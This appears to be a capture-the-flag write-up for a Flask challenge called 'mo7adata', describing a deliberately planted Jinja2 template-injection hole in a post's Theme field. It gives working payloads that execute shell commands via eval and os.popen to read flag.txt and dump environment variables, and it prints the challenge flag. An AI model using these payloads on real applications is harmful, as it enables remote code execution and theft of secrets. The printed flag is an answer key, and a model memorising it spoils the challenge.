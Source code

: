 # CTF Challenge: mo7adata



## Challenge Description

Mo7adata is the next multibillion-dollar project built by molZri3, as always. He said it's super secure, and even he can't break it to get the flag. Do you think the same? 

---

## Challenge Setup
- **Application**: A Flask web application with user authentication, post creation, and profile viewing.
- **Vulnerability**: The `Theme` field in the post creation form is vulnerable to SSTI.
- **Flag**: The flag is stored in a file named `flag.txt` in the root directory of the application.

---

## Vulnerability Details
The vulnerability exists in the `Theme` field of the post creation form. When a user creates a post, the `Theme` field is rendered unsafely in the profile page using Jinja2 templating. This allows attackers to inject malicious Jinja2 templates and execute arbitrary code on the server.

For example, the following payload can be used to perform a simple calculation:
```jinja2
{{ 7 * 7 }}
This will render as 49 in the profile page, confirming the SSTI vulnerability.

Exploitation Steps
Create a Post:

Go to the post creation page (/posting).

Enter a Title and Content.

In the Theme field, enter a malicious payload to exploit the SSTI vulnerability.

Exploit SSTI:

Use the following payload to read the contents of flag.txt:

jinja2
Copy
{{ self.__init__.__globals__.__builtins__.eval("__import__('os').popen('cat /path/to/flag.txt').read()") }}
Replace /path/to/flag.txt with the actual path to the flag.txt file.

View the Profile:

Go to the profile page (/users/<user_id>).

The Theme field will display the contents of flag.txt.

Example Payloads
Simple SSTI Test:

jinja2
Copy
{{ 7 * 7 }}
Output: 49

Read Environment Variables:

jinja2
Copy
{{ self.__init__.__globals__.__builtins__.eval("__import__('os').environ") }}
Output: A dictionary of environment variables.

Read flag.txt:

jinja2
Copy
{{ self.__init__.__globals__.__builtins__.eval("__import__('os').popen('cat ./flag.txt').read()") }}
Output: The contents of flag.txt.
```


## FLAG 

NHD{khoya_7na_mzrobin_3tih_flag_a_rabi3a}
